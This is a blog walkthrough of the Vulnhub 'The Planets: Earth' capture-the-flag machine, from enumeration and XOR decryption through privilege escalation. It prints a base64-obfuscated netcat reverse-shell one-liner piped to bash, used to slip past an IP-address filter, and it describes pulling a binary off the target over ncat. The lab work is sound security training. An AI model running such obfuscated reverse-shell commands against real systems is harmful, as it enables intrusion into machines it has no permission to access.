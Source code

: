 ```yaml
---
layout: post
title: "Vulnhub Earth Walkthrough"
date: 2023-04-10 10:00:00 +0000
categories: [post, hacking]
tags: [post, hacking]
---
```

This blog post will be focused on a walkthrough on hacking Vulnhub’s The Planets: Earth machine. There are two flags to be found according to the description: “a user and root flag which include an md5 hash”. The tools covered here will be nmap, dirb, and CyberChef.


The first thing I did on my Kali Linux machine was to see if the vulnerable machine was up and running, and to find out the machine’s IP address.


My Kali Linux machine is 192.168.56.22, so Earth’s address must be 192.168.56.23. And according to the nmap scan, the ports open up are ports 22 (SSH), 80 (HTTP), and 443 (HTTPS). Those two ports open up means there must be a web application. Before doing anything else, I opened up my browser in order to see what the web application looks like, and see if I can find anything I can use.

If you use http to view the web app, you will see a 400 error. However, if you use https, you will see a default web page. If you take a look at the certificate, you will see the DNS name for the web server.


HTTP

HTTPS
In order to continue with reconnaissance, I used a few tools. The first was a specific nmap scan of the machine.


Breaking down the nmap command, -p 22,80,443 just means I’m scanning those ports. I figured since this was an ‘easy’ machine, I really wouldn’t need to scan for more. -O is for the operating system, which you need sudo (root or administrator on Linux) privileges for, and the -sV flag is getting the service versions for those services running. I’m basically just looking for potential vulnerabilities. If outdated versions of services are running, for example, then I can use that to get into the system.

As a side note, when you’re doing this, you should direct the output to a file. I forgot to do that, and when I wanted to get the information again, I had to run a second nmap scan. It’s not a big deal in this scenario, but in an actual penetration test, that is probably a big mistake.

To do a little bit more web enumeration, I used the dirb command, a command line web enumeration tool, in order to find out what directories on the service are running. If you don’t specify the wordlist, it will default to common.txt. That was what I wanted, so I didn’t use any other wordlist for this particular stage. And again, I would definitely append this to a file so you can reference it later.

The results of the dirb scan said there was one directory, the cgi-bin directory, and that returns a 403 error.


Up until this point I was using the ip address for nmap and dirb. And while doing that, I couldn’t figure anything out. The versions of http and https didn’t have vulnerabilities that I was going to be able to exploit. It looked like I had hit a dead end. I looked at the certificate again, and I edited my /etc/hosts file to map the hostname to the ip address. After I did that, this web enumeration became a lot easier. You can just use any text editor of choice to map the ip address to ‘earth.local’ and ‘terratest.earth.local’.



From the screenshot, there is a user input field that allows me to send a message to Earth. There are previous messages that also look encrypted.

Doing another dirb scan of both earth.local and terratest.earth.local, there is a new directory, called admin. When I visit there, there is a login field. This is a good discovery, but I don’t really have any useful information. I don’t have usernames and I don’t have passwords.



Also, up until this point, I was using http for the dirb scan. Switching up to https, however, gave me much more detail.


It specifically gave me a robots.txt file. That file essentially just tells web crawlers what pages they can and can’t visit. Visiting the robots.txt page, one disallowed directory caught my eye. Visiting that page got me a username, and it also got me the encryption method (XOR).



And then going to the other page mentioned, testdata.txt, got me this message.


That message, mentioned in the previous page, is the key used. When it comes to encryption, if the key is compromised, then a new key needs to be used asap. You definitely do not want any attackers finding your encryption key. Anything encrypted can be decrypted using the key.

Trying to decode the first two messages on the web page is useless, they’re just nonsensical messages. The third one is the most important one. To decode it, I went to CyberChef.

This part took a lot of googling on my part, but I found that converting the message From Hex, and then using XOR with the testdata.txt as the key managed to decrypt the message.


That looks like it could be something good, like a password. I have a username ‘terra’. Going back to the login page, I tried that as the password, and I was in the system.


And I could run commands. The first thing I wanted to do was set up a netcat listener. I ran ‘which nc’ to make sure the ‘nc’ command was on the machine. It was on the machine, so I could theoretically run it.


However, when I tried to run it, I ran into that message. I would have to figure out another way of getting into the system. That however, took a while, so before that I decided to run “locate ‘flag’” to see if I could find the first flag just on this CLI interface.



With the first flag found, I needed to figure out how I could spawn that shell on the system. The easiest solution would be to see if I could view the /etc/passwd and /etc/shadow file. If I could, then I could just brute force passwords. However, while the /etc/passwd was viewable, /etc/shadow was not.

Experimenting with it a bit further, and with a bit more googling and playing around with it, I found that the remote connections are being detected by IP address in the command.


In the screenshot, even though the command ‘echo’ is not going to set up a remote connection, it is still blocked because of the IP address. As a side note, if you type in an invalid IP address (if any of the numbers are over 255), then it’ll go through. So it’s not only testing the format, it’s also testing if it is a valid IP address.


So using that knowledge to set up a listener, I did the following steps. There are probably easier ways to do this, but this is how I did it.

Encode the command that I’m going to run on the web CLI. This command is going to set up the listener. Encoding it will ensure that the command will slip through whatever is detecting the IP address. You can probably use any command line encryption method, but I used base64.


Set up a netcat listener on your port of choice.


On the victim web application, echo the encoded command, pipe the output to be decoded, and then run ‘bash -’ to ensure that the stdin is run as a command. It should look something like this:
echo “bmMgMTkyLjE2OC41Ni4yMiA0NDQ0IC1lIC9iaW4vYmFzaAo=” | base64 -d | bash -


After doing all that, I have a listener on the machine! And to make sure I had some more interface control, I spawned an interactive shell.


And now, I had to figure out how to pivot from here. I am currently an apache user, and I need to figure out how to get to root. The first thing I did was run ‘sudo -l’ to figure out what I can run as a sudo user. However, even that required a password, so I figured that wasn’t going to be fruitful.


Running the above command finds all binaries where they run as the owner of the file, not as the user who called it. There is a binary called ‘reset_root’. If you try to run that, it fails and says that “all triggers not present”. I figured I needed to find out what those triggers are. Using the strings command, I wanted to see exactly what this binary does. I found that if the binary runs successfully, root’s password will be changed to ‘Earth’. To figure out what exactly the triggers needed to be, I transferred the binary over to my Kali Linux machine. To do that, I just set up a ncat listener on my Kali machine to send any output to a file, and then sent it over on the shell I had on the victim machine.



Then after that, I changed the permissions on the reset_root binary so that it is executable, and then used the ltrace command on it. Ltrace is essentially a command that runs another binary and sees what libraries are called. This is a great way to see what the ‘triggers’ the binary needs.


And I saw what the triggers were for the binary to run successfully. I switched back over to the reverse shell, and I created those files. Then after running the binary, root password was switched to Earth.


And then after that getting the root flag was straightforward. I switched over to root, went to the root directory, and the flag was there.



This was a fun machine, and it is apparently the third in a series (Earth being the third planet from the sun). I think the main thing I learned from this was to basically not overlook anything. There were a few times during this where I was lost because of something I overlooked.

